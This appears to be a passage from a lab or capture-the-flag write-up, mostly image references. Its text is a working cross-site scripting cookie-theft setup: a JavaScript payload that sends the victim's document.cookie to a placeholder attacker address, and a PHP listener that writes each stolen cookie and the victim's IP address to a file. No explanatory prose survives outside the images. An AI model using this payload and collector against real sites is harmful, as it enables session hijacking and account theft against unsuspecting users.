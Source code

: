 ![alt text](images/17.png)
![alt text](images/18.png)

![alt text](images/19.png)

```
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

![alt text](images/20.png)